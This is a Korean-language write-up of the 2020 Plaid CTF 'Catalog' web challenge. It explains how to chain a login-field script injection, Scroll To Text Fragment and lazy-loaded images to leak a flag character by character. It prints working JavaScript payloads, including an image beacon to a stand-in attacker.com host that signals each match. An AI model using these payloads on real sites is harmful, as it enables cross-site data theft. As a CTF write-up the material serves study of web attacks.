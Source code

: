 ```yaml
---
layout: post
title:  "2020 Plaid CTF Catalog"
author: "iwkang@raoncorp.com"
comments: true
tags: [ctf, write-up]
---
```



> 2020.04
라온화이트햇 핵심연구팀 강인욱 (iwkang@raoncorp.com)

2020 Plaid CTF에 출제된 문제중 0 솔버였던 흥미로운 문제이다.

문제 출제자 : [https://twitter.com/thebluepichu](https://twitter.com/thebluepichu)

이 문제에 처음 접속 하면 아래와 같이 회원가입, 로그인, 로그아웃 글 작성을 하는 기능이 있으며, 로그인시 관련된 정보(BAM! ~~~~)가 상단에 출력된다.

![/assets/2020_Plaid_CTF_Catalog/Untitled.png](/assets/2020_Plaid_CTF_Catalog/Untitled.png)

CSP를 확인해보면 아래와 같다.

```jsx
Content-Security-Policy: default-src 'nonce-xxxxx'; img-src *; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/
```

nonce가 활성화되어 있으며 스크립트를 삽입하더라도 코드 실행을 할 수 없습니다. 한가지 주목할 점은 img 태그의 경로를 외부 링크로 설정할 수 있다는 점이다.

문제의 목적은 문제 출제자가 작성한 id=3의 게시글에서 플래그를 가져와야 한다. 플래그 포맷은 다음과 같다.

```jsx
Flag format : /^PCTF\{[A-Z0-9_]+\}$/ 
```

플래그 포맷을 주었다는 점에서 어떠한 작업을 이용해 브루트 포싱으로 플래그를 "검색"해서 읽어야 한다는 것을 알 수 있다.

공격 시나리오를 예상해보면 다음과 같다.

1. 글을 작성하여 봇이 글을 읽게한다.
2. id=3 게시글에 접근하여 어떠한 방법을 통해 이미지 지연 로딩(loading=lazy)을 활용하여 플래그를 유추한다.

대회 당시에는 "어떠한 방법"을 찾을 수 없었지만 Chrome 80 부터 Scroll To Text Fragment가 가능하다고 한다.

[https://www.chromestatus.com/feature/4733392803332096](https://www.chromestatus.com/feature/4733392803332096)

Scroll To Text Fragment은 아래와 같이 사용 가능하다. 이 기능을 이용하기 위해선 사용자 제스처(탭, 클릭)가 필요하다. 출제자는 uBlock Origin 플러그인이 활성화되어 있을 경우를 가정했다.

 

STTF 보안 이슈

```jsx
https://docs.google.com/document/d/1YHcl1-vE_ZnZ0kL2almeikAj2gkwCq8_5xwIae7PVik/edit#heading=h.uoiwg23pt0tx
```

사용법

```jsx
https://en.wikipedia.org/wiki/Cat#:~:text=On
```

이 기능을 사용하면 문서 내용중 "On"이라는 글자가 있는 곳으로 스크롤 된다. 

그렇다면, 이 기능을 사용하여 플래그를 읽으려면 id=3 게시물에 스크립트가 삽입이 되어야한다.

스크립트 삽입은 로그인시 상단에 표시되는 아이디로 가능합니다. 로그인을 실패해도 상단에 메세지가 뜨기 때문에 스크립트 삽입이 가능해진다.

![2020%20Plaid%20CTF%20Catalog%209fe8408c81db490a97f6b5f1dc863d5a/Untitled.png](2020%20Plaid%20CTF%20Catalog%209fe8408c81db490a97f6b5f1dc863d5a/Untitled.png)

아래와 같이 유저이름에 스크립트를 삽입한 후 id=3로 이동시키면 상단에 스크립트가 삽입된다.

```jsx
<script>
fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent("<myscript>test code</myscript>")+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3";
});
</script>
```

이제 단서들을 모아서 공격 시나리오를 재구성 하면 아래와 같다.

1. 관리자가 ublock origin 플러그인을 사용중인 상태에서 게시글을 클릭한다.
2. meta tag를 이용해 attacker.com으로 이동 시킨다.
3. attacker.com에서 로그인 요청을 발생시켜 id=3 게시물 상단에 스크립트를 삽입한다.
4. 스크립트로 meta tag를 이용해 Scroll To Text Fragment를 발생시킨다.
5. 이미지 지연 로딩(<img src="http://attacker.com/img" loading="lazy">)을 이용해 플래그가 검색될 경우 attacker.com의 이미지를 로드하도록 한다.
6. 이미지가 로딩되면 검색이 되었다는 뜻이고 로딩이 안되면 검색이 안되었다는 뜻이다.

예시 코드

```jsx
<script>

alphabet = `}0123456789ABDEFGHIJKLMNOPQRSTUVWXYZ_`;
payload  = "";

content = "~~~~~~<h1></h1>".repeat(500)+"<img src="http://attacker.com/img" loading="lazy" />~~~~~";

for (let letter of alphabet) {
    payload += `text=T-,F,{,-${letter}%26`;
}
payload = "#:~:" + payload.substring(0, payload.length - 3);

fetch("http://catalog.pwni.ng/user.php", {
	method: "POST",
	mode: "no-cors",
	credentials: "include",
	headers: {
		"content-type": "application/x-www-form-urlencoded"
	},
	body: "username="+encodeURIComponent(content)+"&password=hello&action=login"
}).then(() => {
	window.location = "http://catalog.pwni.ng/issue.php?id=3#:~:"+payload;
});
</script>
```